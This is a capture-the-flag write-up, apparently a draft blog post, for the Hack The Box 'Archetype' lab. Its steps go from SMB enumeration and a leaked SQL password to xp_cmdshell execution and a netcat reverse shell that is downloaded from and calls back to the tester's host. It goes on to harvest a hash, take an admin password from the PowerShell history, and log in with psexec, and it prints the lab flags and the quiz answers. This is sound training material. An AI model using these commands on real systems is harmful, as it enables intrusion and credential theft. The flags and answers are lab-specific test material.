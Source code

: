 ```yaml
---
title: "HTB: Learn the basics of Penetration Testing - Tier 2"
date: 2022-11-02T11:30:33-07:00
draft: true     # false is visible
summary: "Short writeups for each of the Starting Point boxes on HTB - Tier 2"     # shows on /posts, but not in post.md
description: "Short writeups for each of the Starting Point boxes on HTB - Tier 2" # shows on post.md and in card preview
categories: ["htb"]  # add to list of categories
tags: ["smb", "sql"]        # add to list of tags
cover:
    image: "img/startingpoint.png"
---
```


## Archetype

### nmap
```
# Nmap 7.92 scan initiated Wed Nov  2 14:28:03 2022 as: nmap -sC -sV -oA nmap/archetype 10.129.91.127
Nmap scan report for 10.129.91.127
Host is up (0.074s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2022-11-02T18:27:24
|_Not valid after:  2052-11-02T18:27:24
|_ssl-date: 2022-11-02T18:28:25+00:00; -1s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-11-02T18:28:14
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-11-02T11:28:15-07:00
| ms-sql-info: 
|   10.129.91.127:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  2 14:28:26 2022 -- 1 IP address (1 host up) scanned in 22.75 seconds
```

### smb
`smb` is open so: `smbclient -N -L 10.129.91.127`

*command tags:*
- `-N | --no-pass`: supresses the normal password prompt from the client to the user.
- `-L | --list`: list available services on the server

We can connect to the `backups` service without a password via: 

`smbclient \\\\10.129.91.127\\backups`

The only file housed here iis `prod.dtsConfig`.

*file: prod.dtsConfig*
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```

Noteably, this file leaks us 

`Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;`

### sql
Attempting to connect to sql database using `mysql`:

`mysql -h 10.129.91.127 --port=1433 -u sql_svc -pM3g4c0rp123`

After trying a couple variations of this, I realized that another tool maybe needed to connect to the `db`. [This link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) mentioned `mssqlclient.py`. I ran `locate mssqlclient.py` to search kali for the script.

Connect via: `python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc@10.129.91.127`

![mssqlclient](/img/tier2/mssqlclient.png)

Then I used the [previous link](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) as well as this [cheatsheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet) for `sql` commands. Generating command execution seems good:

```
EXEC xp_cmdshell 'net user'; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:
EXEC sp_configure 'show advanced options', 1; — priv
RECONFIGURE; — priv
EXEC sp_configure 'xp_cmdshell', 1; — priv
RECONFIGURE; — priv
```

And we have command execution:
![shell](/img/tier2/shell.png)

Then I tried several one-liner reverse shells for powershell, but didn't have anyluck. So, I reverted back to the `netcat` binary ([nc64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe)) to spin up a reverse shell.

To host this file to the box: `python3 -m http.server`

Additionally, start `nc` locally for the reverse shell: `nc -lvnp 1337`

Download the binary and run: 

`xp_cmdshell "powershell.exe cd c:\Users\Public; wget http://10.10.14.232:8000/nc64.exe -outfile nc64.exe; .\nc64.exe -e cmd.exe 10.10.14.232 1337"`

![rs](/img/tier2/rs.png)

After a bit of poking around, I found this:

```
    Directory: C:\Users\sql_svc\Desktop
                                                                                  
                                         
Mode                LastWriteTime         Length Name                             
                                      
----                -------------         ------ ----                             
                                      
-ar---        2/25/2020   6:37 AM             32 user.txt     
```

*file: user.txt:*
```
3e7b102e78218e935bf3f4951fec21a3
```

### privesc
Now we can look into becoming `root`. One great tool for automating this process is [`winPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). Just download it locally and then host it on a python server and download it in the reverse shell!

As I was scrolling through the output, a few things stood out:

```
͹ Enumerating Security Packages Credentials                                       
  Version:NetNTLMv2                                               
  Hash: sql_svc::ARCHETYPE:1122334455667788:947576aa2fadb0cbbee6e345caee3fc6:0101000000000000ec105ee002efd8013a4c4936e65e1a2e0000000008003000300000000000000000000000003000004961ea35a68c9880c3eabe5d1edabb04866d05ca16c6fe9706906f3be985311d0a00100000000000000000000000000000000000090000000000000000000000 
```

![winpeas](/img/tier2/winpeas.png)

I decided to check the console history first:

`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline/ConsoleHost_history.txt`

*file: ConsoleHost_history.txt*
```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Now we can revert back to `impacket` tools and use `psexec.py`:

`python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator:MEGACORP_4dm1n\!\!@10.129.91.127`

![root](/img/tier2/root.png)

Finally, print out the flag.

`type C:\Users\Administrator\Desktop\root.txt`

### Questions
- Which TCP port is hosting a database server? `1433`
- What is the name of the non-Administrative share available over SMB? `backups`
- What is the password identified in the file on the SMB share? `M3g4c0rp123`
- What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? `mssqlclient.py`
- What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? `xp_cmdshell`
- What script can be used in order to search possible paths to escalate privileges on Windows hosts? `winPEAS`
- What file contains the administrator's password? `ConsoleHost_history.txt`

**user flag:**`3e7b102e78218e935bf3f4951fec21a3`

**root flag:**`b91ccec3305e98240082d4474b848528`

## Oopsie

### Questions

## Vaccine

### Questions

## Unified

### Questions